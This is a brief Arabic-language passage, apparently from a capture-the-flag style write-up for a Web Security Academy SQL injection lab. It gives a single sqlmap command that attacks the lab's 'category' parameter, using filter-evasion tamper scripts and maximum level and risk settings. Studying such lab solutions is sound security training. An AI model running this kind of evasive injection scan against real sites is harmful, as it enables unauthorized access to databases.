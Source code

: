 # **الحل باستخدام SQLMap:**

. ##اختبار التصنيفات باستخدام `category`:
```
sqlmap -u 'https://0a490066039b0ba28187c114009f0091.web-security-academy.net/filter?category=*' --random-agent --tamper=space2comment,randomcase --threads 10 --level 5 --risk 3
```
